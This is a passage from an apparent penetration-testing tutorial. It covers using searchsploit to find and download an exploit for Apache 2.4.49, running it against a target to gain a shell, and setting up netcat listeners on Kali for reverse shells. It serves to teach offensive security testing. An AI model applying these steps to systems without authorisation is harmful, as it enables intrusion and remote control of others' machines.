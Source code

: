 ## Exploiting Known Vulnerabilities

### Search for Exploits

```bash
# Based on service versions from reconnaissance
searchsploit SERVICE_NAME VERSION

# Example: Apache 2.4.49
searchsploit apache 2.4.49

# Download exploit
searchsploit -m exploits/linux/remote/50383.sh
```

### Using Exploits Safely

```bash
# ALWAYS read the exploit first!
cat 50383.sh

# Understand:
# - What does it do?
# - What are the requirements?
# - Does it give a shell or just run a command?

# Modify IP addresses and ports
vim 50383.sh

# Execute
bash 50383.sh TARGET
```

**Result:** Shell or initial access obtained.

---

## Getting Reverse Shells

### Setup Listener (On Kali)

```bash
# Basic netcat
nc -lvnp 4444

# With readline support (better)
rlwrap nc -lvnp 4444

# Multiple listeners (if testing multiple)
nc -lvnp 4444 &
nc -lvnp 4445 &
nc -lvnp 4446 &
```
